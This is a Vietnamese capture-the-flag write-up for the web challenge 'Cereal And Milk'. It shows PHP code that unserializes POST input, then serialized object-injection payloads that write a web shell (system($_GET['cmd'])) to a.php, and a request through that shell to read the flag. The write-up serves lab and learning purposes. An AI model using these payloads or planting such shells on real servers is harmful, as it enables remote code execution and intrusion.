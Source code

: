 Cereal And Milk
===
**Category:** Web

**Author:** @NightWolf#0268

**Point:** 491 (74 solves)

### Description
```
What do you like for breakfast? Cereal and milk is my favorite.
Sometimes, it tastes a bit odd though.
```
- Source: `src.zip`

### Overview
- Khi vào trang web ta thử qua một lần các chức năng có trong trang web thì không có điều gì đặc biệt, kể ta chúng ta nhập vào ô input của author cho và submit.
- Ở challange này author cung cấp cho chúng ta 2 file php sau khi mở ra thì mình thấy 2 đoạn code cần focus vào là
```php
<?php

class log
{
    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

?>
```
Ở đoạn code này có mục địch là khi chạy hết code thì sẽ hủy chương trình và để ghi vào file
```php
<?php

include 'log.php';

class CerealAndMilk
{
    public $logs = "request-logs.txt";
    public $request = '';
    public $cereal = 'Captain Crunch';
    public $milk = '';
    

    public function processed_data($output)
    {
        echo "Deserilized data:<br> Coming soon.";
       # echo print_r($output);
        
    }

    public function cereal_and_milk()
    {
     echo $this->cereal . " is the best cereal btw.";   
    }

}

$input = $_POST['serdata'];
$output = unserialize($input);

$app = new CerealAndMilk;
$app -> cereal_and_milk($output);

?>
```
Ở đoạn code này nằm mục đích in ra màn hình nhưng tham số của mình nhập vào. Chúng ta có tham số nhập vào là `serdata` bằng phương thức POST và class `log.php` cũng được include ở trong class này.

### Solution
- Idea đầu tiên của mình là thêm mới một file và rce nó vì class `log.php` được include ở trong class `log.php` và ở class log thì có chức năng là ghi vào một file ở thư mục hiện tại. Payload 1 của mình
```php
O:3:"log":3:{s:4:"logs";s:5:"a.php";s:7:"request";s:27:"<?php system($_GET['cmd']);";}
```
Nhưng mình không hiểu sao payload ở trên nó không hoạt động, không thể tạo mới file nhưng mình thử trên local thì mọi chuyện vẫn bình thường.
- Payload 2 của mình là thêm một thuộc tính có class log vì class log chỉ có 2 thuộc tính nhưng mình thêm vào 1 thuộc tính là 3 thì nó sẽ bị lỗi và destruct ngay lập tức.
```php
O:3:"log":3:{s:4:"logs";s:5:"a.php";s:7:"request";s:27:"<?php system($_GET['cmd']);";s:4:"Milk";s:3:"abc";}
```
Và bất ngờ là payload nó hoạt động được. có lẽ trong lúc config author đã config thì thọt một cái gì đó làm cho chương trình không thể chạy hết code và dectruct như bình thương và có thể sử dụng payload 1.

##### Payload
- Sau khi đã add được một file php mới vào thư mục hiện tại và kèm theo đó là lệnh system bây giờ chúng ta chỉ việc tìm file flag
- ```/a.php?cmd=cat ndwbr7pVKNCrhs-CerealnMilk/flag.txt```
